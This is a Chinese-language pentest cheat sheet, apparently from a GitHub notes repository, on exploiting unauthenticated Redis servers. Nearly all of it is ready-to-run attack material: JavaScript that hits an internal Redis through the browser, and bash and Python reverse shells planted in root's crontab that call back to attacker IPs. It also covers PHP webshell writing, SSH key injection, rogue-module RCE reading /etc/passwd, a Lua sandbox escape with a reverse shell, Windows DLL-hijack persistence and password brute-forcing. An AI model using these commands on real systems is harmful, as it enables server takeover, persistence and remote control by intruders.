  #### 测试
	>redis-cli -h 127.0.0.1 flunshall 
	192.168.0.110:6379>ping
	PONG 存在未授权访问
  #### JS打内网
	var cmd = new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");      
	cmd.send('flushall\r\n');             
	var cmd =new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");      
	cmd.send('eval \'' + 'redis.call(\"set\",\"1\",\"\\n\\n*/1 * * * * /bin/bash -i >&/dev/tcp/外网IP/5566 0>&1\\n\\n");redis.call(\"config\", \"set\", \"dir\",\"/var/spool/cron/\"); redis.call(\"config\",\"set\", \"dbfilename\", \"root\");' + '\' 0' +"\r\n");       
	var cmd =new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");       
	cmd.send('save\r\n');
  #### 反弹shell
	保存为sh
	echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.0.108/12138 0>&1\n\n"|redis-cli -h $1 -p $2 -x set 1
	echo -e "\n\n */1 * * * * python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.108",12138));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\n\n"|redis-cli -h $1 -p $2 -x set 1
	redis-cli -h $1 -p $2 config set dir /var/spool/cron/
	redis-cli -h $1 -p $2 config set dbfilename root
	redis-cli -h $1 -p $2 save
	redis-cli -h $1 -p $2 quit
	执行
	>bash 1.sh 192.168.0.120 6379
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/34.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/35.png)

  #### 写shell
	6379> config set dir /var/www/html/
	6379> config set dbfilename shell.php
	6379> set x "<?php phpinfo();?>"
	6379> save
  #### SSH
	ssh-keygen
	本地生成一对密钥
	https://github.com/JoyChou93/hackredis
	>ssh-keygen -t rsa -C "xx@xx.com"
	>(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > qq.txt
	>redis-cli -h 127.0.0.1 flunshall
	>cat qq.txt | redis-cli -h 127.0.0.1 -x set crackit
	>redis-cli -h 127.0.0.1
	6379> config set dir /root/.ssh/
	6379> config set dbfilename "authorized_keys"
	6379> save
	本地登录
	#ssh -i id_rsa root@11.11.11.11
  #### redis-rogue-getshell
	https://github.com/vulhub/redis-rogue-getshell
	需要python3.0以上
	编译
	>cd RedisModulesSDK/
	>make
	会在此目录下生成exp.so
	执行命令
	>python3 redis-master.py -r 192.168.0.120 -p 6379 -L 192.168.0.108 -P 12138 -f RedisModulesSDK/exp.so -c "cat /etc/passwd"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/36.png)

  #### redis-rogue-server
	https://github.com/n0b0dyCN/redis-rogue-server
	需要python3.6以上
	编译
	>cd RedisModulesSDK/exp
	>make
	执行
	>./redis-rogue-server.py --rhost 192.168.0.120 --lhost 192.168.0.108
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/37.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/38.png)

	也可以反向shell
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/39.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/40.png)
  #### redis在windows下的利用
	Web目录写入木马
	启动项
	系统DLL劫持(目标重启或注销)
	特定软件的DLL劫持
	覆盖快捷方式
	覆盖配置文件
	覆盖sethc等文件
	https://github.com/r35tart/RedisWriteFile
	>python3 rediswritefile.py --rhost=目标IP --rport=6379 --lhost=本机IP --lport=本地端口 --rpath="在目标保存的路径" --rfile="在目标保存的文件" --lfile="本地文件" --auth=redis密码

  #### Lua RCE
	https://github.com/QAX-A-Team/redis_lua_exploit
	修改redis_lua.py里的 host 为目标 IP
	执行返回正常，反弹shell
	>eval "tonumber('/bin/bash -i >& /dev/tcp/192.168.0.108/12345 0>&1', 8)" 0
  #### Redis漏洞利用工具
    https://github.com/yuyan-sec/RedisEXP
    windows
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console
    linux平台
    >RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
    >RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
    文件上传
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
    写shell
    >RedisExp.exe -rhost 192.168.211.128 -shell
    Lua沙盒绕过命令执行 CVE-2022-0543
    >RedisExp.exe -rhost 192.168.211.130 -lua -console
    爆破redis密码
    >RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt